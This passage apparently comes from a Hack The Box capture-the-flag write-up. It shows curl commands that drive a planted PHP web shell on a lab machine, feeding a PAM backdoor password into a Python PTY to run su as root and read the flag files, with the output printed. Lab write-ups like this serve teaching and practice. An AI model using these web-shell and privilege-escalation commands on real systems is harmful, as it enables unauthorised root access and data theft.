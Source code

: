It turns out that [this trick](https://www.sans.org/blog/sneaky-stealthy-su-in-web-shells/) works to run `su` from the webshell. The [TheATeam](https://www.hackthebox.eu/home/teams/profile/1750) got first blood by using the webshell to find the PAM backdoor, and then executing it from the webshell like this:

```

root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/SVR49.php --data-urlencode "c=(sleep 1; echo zlke~U3Env82m2-) | python3 -c \"import pty;pty.spawn(['/bin/su','-c','id']);\""
Password: 
uid=0(root) gid=0(root) groups=0(root)

```

The trick here is to use `sleep` to allow the Python PTY time to start, and then to send the `su` password (that is accepted because of the backdoored PAM module) into that PTY with the command. Both flags can be read from here:

```

root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/SVR49.php --data-urlencode "c=(sleep 1; echo zlke~U3Env82m2-) | python3 -c \"import pty;pty.spawn(['/bin/su','-c','cat /home/*/user.txt /root/root.txt']);\""
Password: 
46dbea70************************
77c16789************************

```